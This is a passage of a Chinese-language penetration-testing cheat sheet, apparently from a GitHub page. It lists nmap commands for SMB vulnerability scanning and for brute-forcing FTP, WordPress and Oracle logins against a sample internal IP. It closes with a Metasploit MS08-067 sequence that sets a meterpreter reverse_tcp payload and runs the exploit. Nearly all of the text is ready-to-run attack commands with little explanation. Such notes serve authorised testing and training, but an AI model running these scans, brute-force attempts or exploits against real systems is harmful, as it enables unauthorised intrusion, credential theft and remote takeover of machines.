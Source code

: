> > **主要了解是否绑定其他域名**
> >
> > nmap -sn --script hostmap-ip2hosts www.baidu.com

##### **漏洞扫描**

> **系统漏洞扫描**
>
> > ~~nmap --script smb-check-vulns.nse -p445 172.21.204.107~~ 
> >
> > nmap --script smb-vuln-*.nse  -p445 172.21.204.107

##### **渗透测试**

> **审计FTP**
>
> > nmap --script ftp-brute --script-args userdb=用户名字典,passdb=密码字典 -p 21 172.21.204.107
>
> **审计wordpress**
>
> > nmap -p80 --script http-wordpress-brute --script-args userdb=用户名字典,passdb=密码字典  [ threads=100(线程数)] 172.21.204.107 
>
> **审计数据库**
>
> > nmap --script oracle-brute -p 1521 --script-args oracle-brute.sid=test --script-args userdb=用户名字典,passdb=密码字典  172.21.204.107
>

##### 安装nse脚本

> cd /usr/share/nmap/script
>
> git clone https://github.com/vulnersCom/nmap-vulners.git
>
> git clone https://github.com/scipag/vulscan.git

#### Metasploit

##### 	MS08-067

> **全称：Windows Server 服务RPC请求缓存区溢出漏洞**
>
> 系统：Winxp, Win2000, Win2003
>
> > use windows/smb/ms08_067_netapi
> >
> > set RHOSTS IP  #设置目标主机IP
> >
> > set payload windows/meterpreter/reverse_tcp  #设置payload建立连接
> >
> > set TARGET ID	#设置target选项
> >
> > exploit  #攻击
